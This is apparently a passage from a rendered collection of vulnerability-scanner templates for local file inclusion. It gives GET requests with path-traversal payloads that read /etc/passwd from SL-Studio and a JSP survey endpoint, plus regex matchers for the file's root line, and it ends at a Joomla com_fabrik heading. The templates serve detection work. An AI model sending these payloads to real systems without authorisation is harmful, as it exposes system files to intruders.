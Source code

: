 - {{BaseURL}}/cs/career/getSurvey.jsp?fn=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Webbdesign SL-Studio - Local File Inclusion

## Description

- Webbdesign SL-Studio is vulnerable to local file inclusion.
- severity - high
- tags - slstudio,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?page=../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Joomla! com_fabrik 3.9.11 - Local File Inclusion

## Description
